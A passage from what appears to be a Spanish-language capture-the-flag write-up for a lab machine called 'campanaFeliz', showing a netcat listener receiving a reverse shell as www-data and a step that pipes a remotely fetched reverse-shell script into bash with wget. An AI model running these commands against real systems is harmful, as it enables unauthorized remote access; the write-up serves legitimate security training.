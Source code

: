<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura15.png">
</p>

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.200] 36720
bash: cannot set terminal process group (503): Inappropriate ioctl for device
bash: no job control in this shell
www-data@debian:/var/www/html$ whoami
whoami
www-data
```
Estamos dentro.

<br>

<h3 id="Remoto">Ejecutando Script de Reverse Shell de Manera Remota con wget</h3>

Esta forma es más sencilla, pues vamos a ejecutar el script remotamente con **wget** de la siguiente forma:
```bash
wget -qO- http://Tu_IP/revShell.sh | bash
```

<p align="center">